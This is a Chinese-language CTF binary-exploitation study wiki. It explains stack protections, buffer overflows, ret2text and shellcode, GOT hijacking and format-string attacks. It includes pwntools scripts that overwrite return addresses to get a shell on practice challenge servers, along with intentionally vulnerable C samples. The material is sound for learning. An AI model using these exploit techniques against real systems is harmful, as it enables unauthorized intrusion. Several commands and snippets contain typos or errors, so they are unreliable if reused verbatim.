[TOC]
# PWN
wiki

exo = exploit 漏洞
## Tips

[scanf不接受非法字符](https://blog.csdn.net/weixin_43868725/article/details/105962349#comments_12355290)
, 不能 p64(secret0_addr)+'%77c%8$n'。但是发现上一次输入的值100=0x64的偏移量为7。所以secret0_addr输入，构造payload='%85c%7$n'，这样就可以向secret0_addr中写入85了，从而通过验证。

## 配置环境
PIP使用国内源

    mkdir ~/.pip/pip.conf
    vi ~/.pip/pip.conf

    复制一下，使用Shift+Insert粘贴内容如下：
    [global]
    index-url = https://pypi.tuna.tsinghua.edu.cn/simple
    [install]
    trusted-host=mirrors.aliyun.com

最后按esc, wq!回车保存
## 准备工具
Linux 下

sudo pip3 install pwntools

    如果没有pip就先 sudo apt install python-pip
## 解题思路

checksec 查看保护机制，no Stack-canary可以用shellcode。根据不同的保护机制来进行构造不同的payload

    如果安装了gdb peda, 进入gdb后 checksec filename

在linux 32位的程序中，传递参数问题

    传递参数值将参数放入栈中的，当传递的是字符串时表示将这个字符串的地址放入栈中。
    当将一个函数的返回覆盖成另一个函数的地址时需要将这个地址的上面一个位置当成这个函数的返回地址，再上面还有这个函数的参数，当有三个参数时eg：a,b,c这三个参数的入栈次序为c,b,a，即a在最下方
    可以使用pwntools里面自带的功能来构造shellcode。eg：shellcode=asm(shellcraft.sh())
    在栈中存储数字时需要使用p32或者p64进行转换eg：0x123456在栈中从高地址向低地址的存储为56,34,12，因为这是16进制的因此两个一组，当存储字符串时：eg：‘admin’在栈中从高地址向低地址的存储为n,i,m,d,a。
    使用ELF加载程序和process,remote加载程序是不同的，ELF是静态加载的，后面两种是动态的。


简单溢出思路: 

1. 拖进ida, Shift+F12, Ctrl+F 搜flag
1. 有bin/sh,找溢出点通过system运行bin/sh的地址
2. 字符串格式化漏洞, 打印多个`.%x`来计算栈参数位置, 通过溢出或 %85c%7$n 给栈中第7个参数赋值来修改。

### 学习路径
[路径](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop-zh/#ret2libc)

1. 基本ROP

[ret2text](https://writeup.ctfhub.com/Skill/Pwn/%E6%A0%88%E6%BA%A2%E5%87%BA/eeca3548.html) [原理](http://uuzdaisuki.com/2020/02/22/%E6%A0%88%E6%BA%A2%E5%87%BA%E4%B9%8Bret2text/)

ret2shellcode

ret2syscall

ret2libc

2. 中级ROP

ret2csu

ret2reg

BROP

3. 高级 ROP

ret2_dl_runtime_resolve

SROP

ret2VDSO

### 常见漏洞

1. fgets(&s, 32, edata); 限制了32位长度

1. 字符串溢出: 无栈保护, 没有字符长度检查时
1. 字符串格式化漏洞: 用户输入字符，未检查长度，溢出覆盖返回地址。
2. 整数溢出 int_overflow: 无符号数字 0-255, 超出识别为255内,259识别3。来过些判断
3. read溢出 返回main, 配合libc读取bin/sh，练习：xman_level3

4. ROP
4. glibc heap的一些利用.
4. IO_FILE结构的利用.

[内存泄漏](#_6)

偏向实战:

    webserver
    虚拟机逆向…
    内核提权..ctf中常常是写的驱动的问题.
    魔改的JS引擎.
    等等等.


## 基础学习

[参考](https://www.csdn.net/gather_2a/MtTacg4sMDg1NS1ibG9n.html)

比如有个函数vulnerable_function() 中执行一个读取操作时

|执行过程|
|----|
|可读取空间|
|可读取空间|
|可读取空间|
|…………
|s - string
|r - return 返回地址





system函数执行:

    system_address + "return地址,随意填可为0x1" + bin_sh_addr
    system地址|假返回地址|执行参数(示例为bin/sh的地址)

shellcode填写函数时，需要加返回地址:

    0x88*'a'+p32(0xdeadbeef) + 函数地址 + 函数返回地址 + 参数1 + 参数2 + 参数3 ...

Ubuntu18运行机制与前面版本的不同，在调用system的时候需要进行栈对齐

[栈未对齐引发Crash](http://blog.eonew.cn/archives/958)

[栈未对齐引发Crash1](https://www.cnblogs.com/Rookle/p/12871878.html)

__基本输入输出FD__

fd的类型为int，值为0、1、2,分别代表标准输入、标准输出、标准错误输出。

### 编译与执行
#### 关闭 canary 保护机制

    gcc test.c -fno-statckprotector -o test

```c
# include <stdio.h>
    int main(){
    char buffer[8];
    gets(buffer);//Input
    puts(buffer);//0utput
return 0;
```

stack|description
-|-
...|low address
buffer|
...|
saved rbp|
return address|
...|high address

---
输入一长串a后

comment|stack|description
-|-|-
|...|low address
buffer|aaaaaaaa|.
.|aaaaaaaa|.
.|aaaaaaaa|.
.return address被输入盖掉了|aaaaaaaa|
.|aaaaaaaa|high address

#### gets & read
* gets
    - 没有限制输入长度
* read
    - 有限制最大输入长度
    - 可overflow大小为最大输入长度与buffer长度之间

```c
# include <stdio.h>
    int main(){
    char buffer[8];
    read(0, buffer, 16); //最大只能 overflow 8 bytes
    // 最大长度16 - buffer 长度(8) = 8
    puts(buffer);
return 0;
```


#### Stack Canary
* 在rbp之前塞一個random值，ret之前查是否相同，不同的话就 abort

* 有canary的括不能盖到return address rbp

```
% ./test
aaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaa
*** stack smashing detected ***; <unkonw> terminateed
zsh:abort (core dumped) ./test
```

#### bof应用 (buffer overflow)
* 先看看stack上有什么
    -   local variable
    -   saved rbp ---> stack migration
    -   return address ---> ret2 series

bof-local variable
```c
# include<stdio.h>
# include <stdlib.h>
int main(){
    int a=8;
    char buffer[8];
    gets(buffer);
    if(a==3){
        system("/bin/sh");
    }
    return 0;
}
```


#### 如何算offset
* 先随意输入来确定buffer位置

* 计算buffer位置和目标位置距离多远



使用radare2

    r2 ./bof1
    afl 分析函数
    s main 查看main函数
    VV 进入视图模式

#### 使用gdb配合脚本调试

```python
from pwn import *
r = process('./bof1')
raw_input() # 这里断下，执行脚本后看pid是多少比如6113
# 新建窗口终端
# $gdb
# gdb$ attach 6113
s = r.recvuntil('What\'s the secret ?')
print('recvuntil' + s)
r.sendline(flat('AAAAAAAA', p32(0xbeef), p32(0xdead)))
r.interactive()
```
#### bof-ret2code
* 透过Buffer Overflow 改赞 return address

* 将return address改到code中任意处

* 须关闭 PIE

```c
# include<stdio.h>
# include <stdlib.h>
void shell(){
    system("/bin/sh");
}

int main(){
    char buffer[8];
    gets(buffer);
    return 0;
}
```


##### 如何找到address? 如何查找函数
三种方式
```sh
shell$ objdump -M intel -d test | less
gdb-peda$ p shell
r2$ afl~shell
```

retn 返回stack栈顶的地址
```python
from pwn import *
r = process('./bof')

offset = 0x7fffffffe718 - 0x7fffffffe700
hidden = 0x00400566

r.sendline('a'*offset + p64(hidden))

r.interactive()
```
进入gets前，和gets的retn对应offset


retn



#### bof - ret2shellcode

* 透过Buffer Overflow 改赞 return address

* 将return address改到自己写的shell code处并执行

* 须关闭 NX

vmap查看, 开启NX导致w,x不会同时开启。





##### 哪里可以写shellcode?

* 选择含有rwx处

* 选择中间部分，因为前後可能会有用到



#### Libc

##### Lazy binding

* Dynamic linking的程式在执行过程中，有些library中的函式可能到结束都不轨行到

* ELF采取Lazy binding的机制，在第一次call function時，才会去找真正的位置进行binding

##### plt&got

* 因为Lazy binding的榄制，常要用到library函数时，会call目模函数的plt，接著才call目模函数的 got

* got 中存有目模函数在library中真正的位置



##### GOT Hijacking

* 透过改写GOT使得呼叫函数式，跳到指定位置

* 不能是Full RELRO



##### exp

```python
from pwn import *
r = process('./bof2')

puts_got = 0x601018

```
### fmt

* Format string attack

* Read - information leak:
    - PIE, stack heap libc ASLR, cannary
*   Write - almost write every where
*   Powerful vulnerablility

往后进行 overflow, 覆盖到 rbp

```c
int printf( const char* format, ...);
int fprintf( FILE* stream, const char* format, ...);
int vprintf( const char* format, va_list arg);
int vfprintf( const char* format, va_list arg);
int vprintf( const char* format, va_list arg);
int vprintf( FILE *stream, const char* format, va_list arg);
int vdprintf( int fd, const char* format, va_list ap);
```


正面这个即使保护全开也能拿到 shell
```c
int main() {
    char buf[0x100];

    while(scanf("%s", buf) != EOF) {
        printf(buf);
        printf("\n");
    }
    return 0;
}
```

```
gdb ./echo
b printf
r
输入 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
TODO gdb 源码调试

fmt 可控

--  Constrains 

    -- fmt 长度很短
    -- 过滤

#### fmt - read

* int printf( const char* format, ...);

* rdi, rsi, rdx, rcx, r8, r9, STACK
* rdi -> fmt
* %d, %p, %s, %c, %x -> read data on the stack
* information leak

正常参数是按顺序放  rdi, rsi, rdx, rcx, r8, r9, STACK的。

实际输入 %x%x 就只是把 format 放到 rdi，那么就会直接读出 stack 上面的内容。就把 stack leak 出来。

能控 formatstring, 从第6个开始就可以从 stack 上一直读了。register内容读完就是 stack 的值了

pintf(buf);
```c
input: "aaaaaaa"
output: "aaaaaaa"

input: "%p.%p.%p"
output: "0x7fbdb0e858b0, 0x1, 0x3"
        rdi              rsi  rdx

input: "%3$p"
output: "0x3"

input: "%p.%p.%p.%p.%p.%p.%p.%p.%p"
output: "0x7fbdb0e858b0, 0x1, 0x7ffff7dd48b0, 0x555555554846.0x4.0x7052e7052e7025.0x252e70252e70252e"
        rdi              rsi  rdx              rcx            r8  r9               stack

已进入main函数了 -8对齐
x/64gx $rsp-8

```
BambooFox-2018-2019年合集-107学年社课 (P2. 程式安全-pwn2)

#### fmt - write

将已输出之字元数目当成interger值（4bytes），写入address。

e.g
```c
// fmt_write.c
int main()
{
    int a=0;
    printf("a = %d\n", a);
    printf("123abc%d\n", a);
    // printf("%100c%d\n", 0, a);
    printf("a = %d\n", a); //a = 6
    return 0;
}
```

printf("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%n", &ptr)

printf("%100c%n", &char, &ptr)

printf("%100c%n", 0, &ptr)

```c
// fmt_write.c
int main()
{
    int a=0;
    printf("a = %d\n", a);
    printf("%100c%d\n", 0, a);
    printf("a = %d\n", a); //a=100
    return 0;
}
```
16进制显示
`./fmt_write.c | xxd `

大量写入不稳定，需要sleep等一下。或使用又下的方法

* %100c%n -> 写入4bytes \x64\x00\x00\x00

* %100c%hn -> 写入2bytes \x64\x00\

* %100c%hhn -> 写入1bytes \x64

#### fmt - exploit

* If format string is stored on the stack：

    * 将address放置放payload，得知address位於第n個参数，用%n$去refenrence它。

* %nSp->leak libc，PIE，Heap，Stack:bypass ASLR

* %n$n->write value

* read &write everywhere

### UAF原理

https://mp.weixin.qq.com/s/Jg6Usu58LXnHarMsR9Ok8w

## 常用命令

[checksec](https://blog.csdn.net/weixin_42072280/article/details/90229294) `[filename]`

    /Downloads/level0'
        Arch:     amd64-64-little # 64位
        RELRO:    No RELRO
        Stack:    No canary found # 程序编译时关了栈不可执行保护
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        # 这说明我们可以在buf里面输入shellcode和填充字符
        # 并且让函数的返回地址覆盖成buf的栈上地址 来实现栈溢出攻击

通常定义变量时 后面跟 一个bp 大小(8bytes/64位, 4bytes/32位)

ldd filename  通过ldd查找libc共享库
## pwntools
[Link](https://www.jianshu.com/p/6e528b33e37a)

### 怎样调试
方法1

```python
context(arch='amd64', os='linux', log_level='debug')
sh = process('./pwn')
# gdb.attach(sh, 'b *0x1234')
gdb.attach(sh)
```
方法2
```python
sh = process('./pwn')
raw_input('debug')
这时看pid，比如是 6533, 新建终端，
$gdb
$attach 6533
```

### 指令介绍
p32、p64是64/32位代码 打包为二进制，u32、u64是解包为二进制

__flat模块能将pattern字符串和地址结合并且转为字节模式__

```python
payload = flat(cyclic(32), 0x804a060)
io.sendlijneafter(':', flat['a'*0x8c, e.plt['system'], 0, 0x804a024, 0, 0])
```

symbols

    ELF('./level3').symbols['main']
    ELF('./level3').sym['main']

gdb.attach(sh) # gdb附加到调试
### 示例
```python
from pwn import *
context(log_level = 'debug', arch = 'i386', os = 'linux') # 能显示调试信息
#io = process('./level1') 
io = remote('pwn2.jarvisoj.com', 9877) # 远程连接
text = io.recvline()[14: -2] # 获取返回值
# recvline(keepends=True) : 接收一行，keepends为是否保留行尾的\n
shellcode = asm(shellcraft.sh()) # pwntools生成的 sh 的shellcode
p64(0x400000) # 地址转 64 位二进制
p32(0x400000) # 地址转 32 位二进制
payload = shellcode.decode('latin') + '\x90' * (0x88 + 0x4 - len(shellcode)) + p32(buf_addr).decode('latin')
io.send(payload)
io.interactive()
io.close()
```

从write返回main
```python
#char[88] ebp  write函数地址  write函数返回地址(返回到main函数)  write函数参数一(1)  write函数参数二(write_got地址)  write函数参数三(写4字节)
payload = flat('A'*0x88, p32(0xdeadbeef), p32(write_plt), p32(main_addr), p32(1), p32(write_got), p32(0xdeadbeef))
# payload = flat('a'*0x88, p64(syscall), p64(syscall)) # buuctf这题需要2个，不明白。好像是栈没对齐的原因
```
#### 输入字符
```python
io.sendlineafter('name', payload)

io.recvuntil("your name")
io.sendline("/bin/sh")

print(io.recvall())
```

#### 汇编转二进制、数字、字符转换等
```python
# python3
from pwn import *
print(asm('XCHG EAX,ESP\nRET\nMOV ECX,[EAX]\nMOV [EDX],ECX\nPOP EBX\nRET'.lower()).hex())
```
p32
```python
>>> p32(0x8040000)
b'\x00\x00\x04\x08'
```

u32使用
```python
>>> u32('\x00\x00\x04\x08')
134479872
>>> hex(u32('\x00\x00\x04\x08'))
'0x8040000'
```

#### runshellcode
```python
from pwn import *
run_shellcode(a.encode())
```
### 相关知识

通过ldd查找libc共享库， 这里python需要用到c语言的标准动态库, srand用到libc.so.6
```sh
kali@kali:/mnt/hgfs/vmware$ ldd guess_num 
        linux-vdso.so.1 (0x00007ffec67fa000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007faeab4e3000)
        /lib64/ld-linux-x86-64.so.2 (0x00007faeab8c1000)
```
## one_gadget
one_gadget libc_32.so.6 
https://xz.aliyun.com/t/6598

one_gadget 之前,我们一般都是通过常规 rop 的方式 getshell .有了它之后,知道 libc 偏移就能够通过它的地址一步 getshell .详细介绍参见[此处](https://xz.aliyun.com/t/2720)

## radare2使用

r2 ./bof

aa分析

afl看函数 analysis function list

跳到main
s main
s 0x1234地址
V 看内存
VV 进入virtual mode，能看图

s sym.hidden
VV
看绿色 call sym.imp.system 参数是 bin/sh
s sym.main(转到main)


执行
./bof1

光标处按:提示:> 修改，
:> afvn改名字
local_10h 改为 input
:> afvn input local_10h

aa 分析
aaa 分析 一般用这个够了
aaaa 分析

## 练习

#### 1. 内存泄漏
1.内存泄漏 xman_level0 [file](https://dn.jarvisoj.com/challengefiles/level0.b9ded3801d6dd36a97468e128b81a65d)

    nc pwn2.jarvisoj.com 9881
    # 覆盖 填充长度 + 一个bp 大小(8bytes)

思路：

扔进IDA看strings, 有bin/sh, 进入按X，看函数调用地址。

左侧函数窗口，看main函数

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      write(1, "Hello, World\n", 0xDuLL);
      return vulnerable_function();
    }

看 vulnerable_function

    ssize_t vulnerable_function()
    {
      char buf; // [rsp+0h] [rbp-80h] # 读buf 占 0x80，双击进入，
      return read(0, &buf, 0x200uLL); # 就读入 0x200， 即16*16*2 =512个bytes
    }

    # buf 
    -0000000000000002                 db ? ; undefined
    -0000000000000001                 db ? ; undefined
    +0000000000000000  s              db 8 dup(?) 
    +0000000000000008  r              db 8 dup(?) # 存放返回地址， 多空余0x8字节，加上前面的0x80字节，就是0x88个字节

read可以读入0x200，即512个字符，而从buf到vulnerable_function的返回地址只有0x80+0x8,即 136个字节 < 512，因此可以覆盖 vulnerable_function 的返回地址为 call_system 函数地址，即可getshell

```python
# -*- coding:utf-8 -*-
from pwn import *

sh = remote("pwn2.jarvisoj.com",9881) 
junk = 'a'*0x80 # 随意填充0x80个，


fakebp = 'a'*8 # 看char buf，双击进buf，最下面还有8个bytes
syscall = 0x0000000000400596 # ida 查看 exports 填入地址
payload = junk + fakebp + p64(syscall) # 正常是vulnerable_function()返回地址，我们这里覆盖为syscall地址，得到shell
sh.send(payload)
sh.interactive()

```
#### 读取 symbol system的地址
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

io = remote("pwn2.jarvisoj.com",9878)
elf = ELF("./level2")

sys_addr = elf.symbols["system"]                     # IDA对应的函数为 _system 0x08048320
bin_addr = elf.search("/bin/sh".encode()).__next__() # IDA可见 0x804a024

payload = 'a'*(0x88 + 0x4)                 #辣鸡填充值
payload += p32(sys_addr).decode('latin')   #覆盖返回地址到system函数
payload += p32(0xdeadbeef).decode('latin') #随意填写system函数调用结束的返回地址 0x1也行
payload += p32(bin_addr).decode('latin')   #system函数的参数，指向“/bin/sh”，实现调用

io.recvline()
io.sendline(payload)
io.interactive()
io.close()
```
## Wiki

### checksec 、 二进制保护机制

__0x00 checksec__

打开了RELRO、Canary和NX，那就没办法做栈溢出了。

这里主要讲的是CTF中linux下的ELF二进制文件的保护机制。在linux中有一个脚本checksec命令可以查看当前二进制文件的保护机制。任意安装一款gdb插件都会把checksec脚本包含进来。

    在gdb中执行：
    gdb> checksec test
    Canary                      : No
    NX                            : Yes
    PIE                           : No
    Fortify                       : No
    RelRO                        : Partial

    直接在shell中执行：
    $ checksec test
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    可以看到checksec可以查看当前二进制文件的指令架构以及采取了哪些保护机制。

示例2

    确定保护 

    jarvisOJ_typo [master●●] check ./typo
    typo: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=211877f58b5a0e8774b8a3a72c83890f8cd38e63, stripped
    [*] '/home/m4x/pwn_repo/jarvisOJ_typo/typo'
        Arch:     arm-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8000)
    静态链接的程序，没有开栈溢出保护和 PIE; 静态链接说明我们可以在 binary 里找到 system 等危险函数和 "/bin/sh" 等敏感字符串，因为又是 No PIE， 所以我们只需要栈溢出就能构造 ropchain 来 get shell

---

__0x01 二进制保护机制__

__1.Canary（栈保护）__

这个选项表示栈保护功能有没有开启。

栈溢出保护是一种缓冲区溢出攻击缓解手段，当函数存在缓冲区溢出攻击漏洞时，攻击者可以覆盖栈上的返回地址来让shellcode能够得到执行。当启用栈保护后，函数开始执行的时候会先往栈里插入cookie信息，当函数真正返回的时候会验证cookie信息是否合法，如果不合法就停止程序运行。攻击者在覆盖返回地址的时候往往也会将cookie信息给覆盖掉，导致栈保护检查失败而阻止shellcode的执行。在Linux中我们将cookie信息称为canary。

__2.NX/DEP（堆栈不可执行）__

NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。



__3.PIE/ASLR（地址随机化）__
 

__4.Fortify __

这个保护机制查了很久都没有个很好的汉语形容，根据我的理解它其实和栈保护都是gcc的新的为了增强保护的一种机制，防止缓冲区溢出攻击。由于并不是太常见，也没有太多的了解。

__5.RelRO__

设置符号重定向表格为只读或在程序启动时就解析并绑定所有动态符号，从而减少对GOT（Global Offset Table）攻击。

0x02 [参考](http://yunnigu.dropsec.xyz/2016/10/08/checksec%E5%8F%8A%E5%85%B6%E5%8C%85%E5%90%AB%E7%9A%84%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/)
### 栈

参数入栈方式是从右向左。




### C代码翻译

`_readfsqword(0x28u)` 通常用于alarm函数，防止调试

`strcmp(str1,str2)` ，若str1=str2，则返回零；若str1<str2，则返回负数；若str1>str2，则返回正数


### C语言各数据类型大小和取值范围

[Linux System Call Table](http://shell-storm.org/shellcode/files/syscalls.html)

[LINUX SYSTEM CALL TABLE FOR X86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)


有符号整数类型

类型名称|字节数|取值范围
-|-|-
